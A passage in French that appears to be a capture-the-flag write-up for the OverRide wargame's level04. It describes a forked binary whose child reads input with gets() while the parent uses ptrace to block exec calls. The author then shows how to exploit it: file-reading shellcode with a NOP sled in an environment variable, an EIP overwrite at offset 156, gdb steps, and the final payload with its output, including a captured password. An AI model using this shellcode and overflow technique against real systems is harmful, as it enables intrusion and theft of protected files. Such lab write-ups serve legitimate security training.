 Ce binaire est particulier. 
Tout d'abord un buffer de 32 bytes est declare. Ensuite, le programme fait un `fork`. 
Il va donc se derouler en deux "sous-parties" :

**Le fils :**

Le fils va faire un appel un ptrace() afin qu'il soit trace par le pere et qu'ils puissent "echanger" des signaux.

`ptrace(0, 0, NULL, NULL);`

Ensuite, une string indiquant `Give me some shellcode, k` va etre afficher grace a un puts, puis, via un gets() nous allons 
etre invite a remplir le buffer de 32 bytes : 

    puts("Give me some shellcode, k");
    gets(str);
    
gets() est bien entendu vulnerable aux BoF.

**Le pere :**

Le pere, quant a lui, va se mettre en wait() afin d'attendre que le processus fils s'execute (autrement dit, il va attendre qu'on utilise gets) 
puis en suite il va exit. Cependant, grace a ptrace(), il va aussi verifier que le fils n'utilise pas de syscall `exec()`, auquel cas, nous avons un joli
`no exec() for you` puis un kill.

Nous savons maintenant que nous ne pourrons pas executer un shellcode avec pour instruction "exec".
Le trick sera donc de trouver un shellcode permettant de lire dans un fichier (dans notre cas, /home/users/level05/.pass)

En voici un : http://shell-storm.org/shellcode/files/shellcode-73.php

`export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")`

Nous avons juste besoin de l'offset necessaire pour ecraser EIP, puis de l'adresse de notre shellcode.
Apres plusieurs tentatives de `print('A'*x)` nous pouvons en deduire que l'offset est de 156.

Il suffit de recuperer l'adresse de notre shellcode :

    $ gdb level04
    $ start
    $ x/1000xg $esp
    -> piocher une adresse dans le NOP-Sled

Nous avons donc notre payload final :

`python -c "print('A'*156 + '\x50\xd8\xff\xff')"`


    level04@OverRide:~$ python -c "print('A'*156 + '\x50\xd8\xff\xff')" | ./level04 
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    child is exiting...
